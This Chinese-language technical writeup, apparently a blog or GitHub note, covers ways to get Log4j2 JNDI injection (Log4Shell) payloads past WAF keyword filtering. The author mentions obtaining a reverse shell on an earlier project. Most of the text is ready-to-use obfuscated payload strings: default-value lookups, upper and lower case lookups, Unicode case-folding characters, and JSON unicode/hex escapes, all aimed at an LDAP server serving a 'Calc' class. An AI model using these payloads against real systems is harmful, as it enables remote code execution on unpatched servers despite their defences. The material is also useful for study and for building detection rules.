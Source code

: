 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## WAF绕过总结

         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <=      版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
          :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过，
     logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
          Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
     logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
     logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");      
          同时也可以利用一些特殊字符的大小写转化的问题
     ı => upper => i (Java 中测试可行)
     ſ => upper => S (Java 中测试可行)
     İ => upper => i (Java 中测试不可行)
     K => upper => k (Java 中测试不可行)
     logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");
          现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试，像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
    {"key":"\u0024\u007b"}
    {"key":"\x24\u007b"}
